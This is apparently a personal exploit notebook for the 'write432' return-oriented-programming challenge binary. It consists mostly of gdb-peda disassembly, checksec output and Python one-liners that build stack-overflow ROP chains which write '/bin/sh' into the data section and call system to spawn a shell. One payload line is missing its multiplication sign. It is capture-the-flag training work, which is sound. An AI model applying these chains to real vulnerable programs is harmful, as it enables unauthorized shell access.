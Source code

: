 ROPgadget --binary write432 > ropgadget

gdb-peda$ disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804864c <+0>:	push   ebp
   0x0804864d <+1>:	mov    ebp,esp
   0x0804864f <+3>:	sub    esp,0x8
   0x08048652 <+6>:	sub    esp,0xc
   0x08048655 <+9>:	push   0x8048754
   0x0804865a <+14>:	call   0x8048430 <system@plt>
   0x0804865f <+19>:	add    esp,0x10
   0x08048662 <+22>:	nop
   0x08048663 <+23>:	leave
   0x08048664 <+24>:	ret
End of assembler dump.
gdb-peda$ disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:	mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:	ret
   0x08048673 <+3>:	xchg   ax,ax
   0x08048675 <+5>:	xchg   ax,ax
   0x08048677 <+7>:	xchg   ax,ax
   0x08048679 <+9>:	xchg   ax,ax
   0x0804867b <+11>:	xchg   ax,ax
   0x0804867d <+13>:	xchg   ax,ax
   0x0804867f <+15>:	nop
End of assembler dump.

gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f519ab ("/bin/sh")
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial





# /bin/ls
# "\x4c\x86\x04\x08" is the address of usefulFunction
python -c 'print "A" 44 + "\x4c\x86\x04\x08"' > input.txt



arg[0]: 0x8048754 ("/bin/ls")
arg[1]: 0x41414141 ('AAAA')

# bss addr is "\x40\xa0\x04\x08"

0x080486da : pop edi ; pop ebp ; ret

python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x40\xa0\x04\x08" + "/bin/sh\0" + "\x70\x86\x04\x08" + "\x4c\x86\x04\x08"' > input.txt

python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x40\xa0\x04\x08" + "\xab\x19\xf5\xf7" + "\x70\x86\x04\x08" + "\x4c\x86\x04\x08"' > input.txt


# system (0x804865a)
python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x40\xa0\x04\x08" + "\xab\x19\xf5\xf7" + "\x70\x86\x04\x08" + "\x5a\x86\x04\x08"' > input.txt


08048430 <system@plt>:
python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x40\xa0\x04\x08" + "\xab\x19\xf5\xf7" + "\x70\x86\x04\x08" + "\x30\x84\x04\x08"' > input.txt




[25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4

We use the data section as buffer


python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x28\xa0\x04\x08" + "/bin" + "\x70\x86\x04\x08" + "\xda\x86\x04\x08" + "\x2c\xa0\x04\x08" + "/sh\x00" + "\x70\x86\x04\x08" + "\x30\x84\x04\x08" + "AAAA" + "\x28\xa0\x04\x08"' > input.txt



   0xf7e30c8c:	push   eax
   0xf7e30c8d:	lea    eax,[esi-0x56655]
   0xf7e30c93:	push   eax
=> 0xf7e30c94:	call   0xf7ea67e0 <execve>
   0xf7e30c99:	mov    DWORD PTR [esp],0x7f
   0xf7e30ca0:	call   0xf7ea67c8 <_exit>
   0xf7e30ca5:	lea    esi,[esi+eiz*1+0x0]
   0xf7e30ca9:	lea    edi,[edi+eiz*1+0x0]
Guessed arguments:
arg[0]: 0xf7f519ab ("/bin/sh")
arg[1]: 0xffffbce8 --> 0xf7f519b0 --> 0x65006873 ('sh')
arg[2]: 0xffffbebc --> 0xffffc199 ("XDG_SEAT=seat0")



python -c 'print "A" * 44 + "\xda\x86\x04\x08" + "\x40\xa0\x04\x08" + "/bin" + "\x70\x86\x04\x08" + "\xda\x86\x04\x08" + "\x44\xa0\x04\x08" + "/sh\x00" + "\x70\x86\x04\x08" + "\x30\x84\x04\x08" + "AAAA" + "\x40\xa0\x04\x08"' > input.txt
